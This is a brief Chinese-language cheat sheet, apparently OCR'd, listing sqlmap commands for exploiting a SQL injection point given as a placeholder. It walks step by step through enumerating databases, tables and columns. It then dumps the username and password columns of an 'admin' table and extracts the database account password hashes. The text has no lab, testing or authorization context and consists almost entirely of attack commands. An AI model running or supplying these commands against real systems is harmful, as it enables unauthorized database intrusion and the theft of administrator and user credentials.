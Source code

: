 注入工具：sqlmap:python27:

1.判断库名：article

sqlmap.py -u "注入点" --dbs

2.判断表名

sqlmap.py -u "注入点" -D article --tables

3.判断列名

sqlmap.py -u "注入点" -D article -T admin --columns



4.判断值：

sqlmap.py -u "注入点" -D article -T admin -C username,password --dump

5.判断连接数据库用户名和密码

sqlmap.py -u "注入点"  --passwords

